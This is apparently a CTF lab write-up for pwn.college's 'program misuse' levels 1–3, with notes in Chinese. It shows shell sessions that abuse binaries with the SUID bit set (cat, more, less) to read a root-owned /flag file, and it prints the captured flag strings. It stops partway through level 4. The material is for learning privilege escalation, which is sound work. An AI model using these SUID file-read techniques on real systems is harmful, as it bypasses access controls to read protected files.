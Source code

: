 ```
hacker@program-misuse-level-1:/challenge$
```
已经给我uid了，然后我直接读取即可
```
hacker@program-misuse-level-1:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-1:/$ cat flag
pwn.college{gtmGRqQdewLiKKwB2Wi1NeBxX3w.01M0EDL2QjMyMzW}
hacker@program-misuse-level-1:/$
```

## level2 Lets you directly read the flag!
```
hacker@program-misuse-level-2:/challenge$ ./babysuid_level2
Welcome to ./babysuid_level2!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/more.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level2) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/more!
hacker@program-misuse-level-2:/challenge$
```
这个是用 `more` 读取
```
hacker@program-misuse-level-2:/challenge$ more /flag
pwn.college{g0orxg7_IfgidrE5G2scOM8wdRx.0FN0EDL2QjMyMzW}
hacker@program-misuse-level-2:/challenge$
```

## level3 Lets you directly read the flag!
```
hacker@program-misuse-level-3:/challenge$ ./babysuid_level3
Welcome to ./babysuid_level3!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/less.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level3) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/less!
hacker@program-misuse-level-3:/challenge$
```
这次是用`less`
```
hacker@program-misuse-level-3:/challenge$ less /flag
pwn.college{onJWxeGXCk8o-LqXlLemr-Xzk2W.0VN0EDL2QjMyMzW}
/flag (END)

```
less没有more好用，记得使用q退出
## level4 Lets you directly read the flag!
```
hacker@program-misuse-level-4:/challenge$ ./babysuid_level4
Welcome to ./babysuid_level4!

This challenge is part of a series of programs that
```